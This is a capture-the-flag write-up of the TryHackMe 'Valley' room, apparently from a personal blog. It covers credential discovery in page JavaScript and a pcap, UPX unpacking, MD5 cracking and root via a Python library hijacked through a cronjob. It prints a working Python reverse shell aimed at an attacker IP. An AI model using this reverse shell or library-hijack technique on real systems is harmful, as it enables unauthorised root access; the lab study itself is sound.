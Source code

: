 ```yaml
---
title: 'Valley'
description: 'Web enumeration, pcacp investigation and privilege escalation through a Python cronjob with root permissions'
pubDate: 2023-06-02
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/2700326f6bf2127c414a0fa4582496cd.png'
---
```


http://10.10.97.14/static/00

```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

### Login page
http://10.10.97.14/dev1243224123123/

In the JavaScript on the login page (http://10.10.97.14/dev1243224123123/dev.js):

```js
    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    }
```

http://10.10.97.14/dev1243224123123/devNotes37370.txt

```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

## FTP login
```bash
ftp ftp://siemDev:california@10.10.97.14:37370
```

## USER
From the `siemHTTP2.pcapng` file we filter on `http.request.method == POST` and find:
`uname=valleyDev&psw=ph0t0s1234&remember=onHTTP/1.1 200 OK`


```bash
ssh valleyDev@10.10.97.14 # -> ph0t0s1234
```

## ROOT

```
$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
valley:x:1000:1000:,,,:/home/valley:/bin/bash
siemDev:x:1001:1001::/home/siemDev/ftp:/bin/sh
valleyDev:x:1002:1002::/home/valleyDev:/bin/bash
```

```bash
scp valleyDev@10.10.97.14:/home/valleyAuthenticator . # -> ph0t0s1234
```

Running strings on the binary shows its packed with UPX, unpacking it:

```bash
upx -d -o unpacked valleyAuthenticator
```

Running `strings` on it:

```bash
strings unpacked > unpacked.strings
```

In the strings output we find two hashes:

```
e6722920bab2326f8217e4bf6b1b58ac
dd2921cc76ee3abfd2beb60709056cfb
```

Putting those in https://crackstation.net/ shows:

```
e6722920bab2326f8217e4bf6b1b58ac	md5	liberty123
dd2921cc76ee3abfd2beb60709056cfb	md5	valley
```

    username: valley
    password: liberty123

```bash
ssh valley@10.10.54.57 # -> liberty123
```

## ROOT

User valley is member of the valleyAdmin group.

```bash
alley@valley:~/exp_dir$ groups
valley valleyAdmin
```

Searching for files this group can access:

```bash
valley@valley:~/exp_dir$ find / -group valleyAdmin 2>/dev/null
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

Checking the cronjobs:

```bash
cat /etc/crontab
...[snip]...
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

In this script the base64 library is imported:

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
...[snip]...
```

We can put a simple Python reverse shell in the `/usr/lib/python3.8/base64.py`:

```python
import os,pty,socket
s=socket.socket()
s.connect(("10.8.119.137",4444))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("bash")
```
and start a listener on port 4444, on the next minute it should execute and return a root shell.
